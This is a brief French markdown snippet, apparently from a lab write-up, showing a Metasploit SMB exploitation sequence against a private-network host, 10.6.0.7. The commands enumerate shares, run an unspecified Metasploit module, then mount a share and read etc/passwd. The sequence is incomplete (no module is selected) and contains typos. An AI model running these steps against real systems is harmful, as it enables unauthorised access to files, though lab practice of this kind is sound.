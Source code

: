 ## Exploit SMB avec Methaploit

```bash

smbclient -L //10.6.0.7
msfconsole
set RHOST 10.6.0.7
set SMBSHARE tmp
run
exit

smbclient //10.6.0.7/tmp
cd roottfs
cd etc
more passwd
```
![smb](Images/smb-2)